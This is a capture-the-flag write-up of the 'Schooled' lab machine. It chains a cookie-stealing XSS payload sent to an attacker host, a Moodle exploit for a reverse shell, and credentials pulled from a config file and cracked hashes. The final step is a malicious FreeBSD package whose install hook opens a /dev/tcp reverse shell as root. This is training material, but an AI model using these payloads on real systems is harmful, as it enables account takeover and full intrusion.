 # Schooled

First as always, `nmap`

```
# Nmap 7.92 scan initiated Wed Aug 25 13:47:20 2021 as: nmap -vvv -p 22,80,33060 -sCV -oA init 10.10.10.234
Nmap scan report for box.ip (10.10.10.234)
Host is up, received syn-ack (0.071s latency).
Scanned at 2021-08-25 13:47:21 +07 for 22s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGY8PnQ2GFk9RrUQ82xGivlyXZ8k99JFZAFlNqJIftRHSGWL3HsfaO08lnGCrqVxj3235k0L74SJAqWfJs1ykTRipcZpsI5QvwYPyqpisMgH/SdCH1wehZpgaXRwdn52ob9+GxZ6qjqIon0cH0XR1hkNIGdbTt4RRMy+IfynzVuomW2mUi0tnnXU69pcyYNMShND4PqxVDKZHwUyeDIiYVBvnL5P9qEh0Q/t0HKWFHQ8otwWEpL3jnn774RFP9ETtZsJ/xosuhty02yIZuP6vqtbWfVqcqM8v1R3jm/xjXfXxiflGO09KO2aePAbEhNEofb7V/f33dRQDv5mr9ceZ1
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHc4TgrG+CyKqaIsk10XmAhUKULXK6Bq3bHHeJiWuBmdGS1k3Fp60OoVFdDKQj9aihkaUmbJ8fkG6dp07bm8IcM=
|   256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWIP8gV7SGQNoODfYq9qg1k3j6ZZg+1L9zIU9FrHPaf
80/tcp    open  http    syn-ack Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: 460AF0375ECB7C08C3AE0B6E0B82D717
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|     HY000
|   LDAPBindReq:
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns:
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[snip]
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 25 13:47:43 2021 -- 1 IP address (1 host up) scanned in 22.40 seconds
```

Looking at the website on port 80, we have a domain name.

![](domain-name.png)

I add the domain name to my `/etc/hosts` and run `ffuf` to get new subdomains.

```sh
$ ffuf -u "http://schooled.htb/" -H "Host: FUZZ.schooled.htb" -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 20750

moodle                  [Status: 200, Size: 84, Words: 5, Lines: 2, Duration: 153ms]
```

The newly found subdomain is then added to `/etc/hosts` and we navigate to said subdomain.

Navigating to `moodle.schooled.htb`, looking around, we need to be logged in for some functionalities so we create an account and log in.

Looking at the site home, we several courses. I enroll myself to every available course, which is only "Mathematics" by "Manuel Phillips" since I can't enroll myself in the other courses. After enrolling in Mathematics, we can view the messages in the course, of which "Reminder for joining students" tells us to have our "MoodleNet profile" set. Since the teacher says they're going to check the students to see that this parameter is set, we can assume we can perform XSS. We set up an HTTP listener and edit our "MoodleNet profile" with XSS payloads aiming to steal the cookie. Upon saving our profile, we're directed to our profile page where many requests with our own cookie should be sent to our HTTP listener due to XSS. I found the following payload to work:

```
<img src=# onerror=this.src="http://ATK_IP:8000/?"+document.cookie;>
```

After confirming that the payload works, I get away from the profile page to stop the unwanted traffic and wait for Manuel's cookie. After catching and editing our cookie, we become Manuel.

According the [Moodle](https://docs.moodle.org/311/en/Moodle_version), one way we can view the version of Moodle is as follows:

> For Moodle sites in English or German (only), if you are a regular teacher with no admin access, you might be able to find your Moodle version by clicking on "Moodle Docs for this page" at the bottom of any Moodle page when logged in.

In doing as instructed, we're able to discern that we're using Moodle version 3.9. Looking up "moodle 3.9 exploit", we get [an exploit on Exploit DB](https://www.exploit-db.com/exploits/50180). Using the exploit with our cookie as a teacher, we're able to get a reverse shell (supplied as the command) as "www".

Looking around `/usr/local/www/apache24`, we find that `/usr/local/www/apache24/data/moodle/config.php` contains MySQL credentials. We can't just run `mysql`, however, as it seems to not be in our `PATH`, so we `find` it.

```sh
[www@Schooled /usr/local/www/apache24/data/moodle]$ find / -name mysql -type f 2>/dev/null
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/mysql
/var/mail/mysql
```

With our `mysql` binary, we can log in.

```sh
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/mysql -u root -pPlaybookMaster2020 -e "show databases"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle
mysql
performance_schema
sys
```

In database "moodle", table "mdl_user", we have multiple password hashes. We should be able to crack admin's hash (`!QAZ2wsx`) with hashcat and rockyou. We can attempt to log into SSH as "admin", but that doesn't work. Looking at `/etc/passwd`, 3 users have a shell: root, jamie and steve. Among the 3, we're only able to log in as jamie with the cracked password.

Checking jamie's sudo privileges ...

```sh
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

We're able to run `pkg` to install packages as root without a password. Following [this article](http://lastsummer.de/creating-custom-packages-on-freebsd/) we can create a custom package.

Create and run the following script

```sh
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/csh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
pw usermod -n root -s /bin/sh
bash -c 'exec bash -i &>/dev/tcp/10.10.14.33/1337 <&1'
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
```

After that, set up a `nc` listener to catch the shell and run the following

```sh
sudo /usr/sbin/pkg update
sudo /usr/sbin/pkg install --no-repo-update *.txz
```

With that, we should have a root shell.
